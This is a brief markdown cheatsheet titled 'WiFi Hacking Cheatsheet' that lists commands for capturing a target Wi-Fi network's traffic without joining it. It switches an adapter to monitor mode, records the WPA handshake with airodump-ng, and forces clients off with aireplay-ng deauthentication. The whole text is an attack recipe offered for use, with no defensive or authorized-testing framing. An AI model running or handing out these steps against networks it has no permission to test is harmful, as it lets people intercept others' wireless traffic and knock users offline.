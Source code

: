 # WiFi Hacking Cheatsheet

<!--
##################################################################
##################################################################
-->

#### Capture WiFi traffic without connecting to WiFi

1. `ifconfig wlan1 down` **Step 1 and Step 2 are only needed if Step 3 doesnt work initially**
2. `iwconfig wireless_adapter_name mode monitor`
3. `ifconfig wireless_adapter_name up`
4. `airodump-ng wireless_adapter_name`
5. Determine BSSID | CH | ESSID of target.
6. `airodump-ng --bssid 'TargetMACaddressHere' --essid 'RouterNameHere' -c ChannelNumber -w SaveDestination wireless_adapter_name`
7. Make sure that WPA handshake is captured. This can be seen in top right corner of airodump-ng output. If no handshake is capture you can attempt to deauth the AP using `aireplay-ng --deauth NumberOfAttempts -a MACaddress wireless_adapter_name`
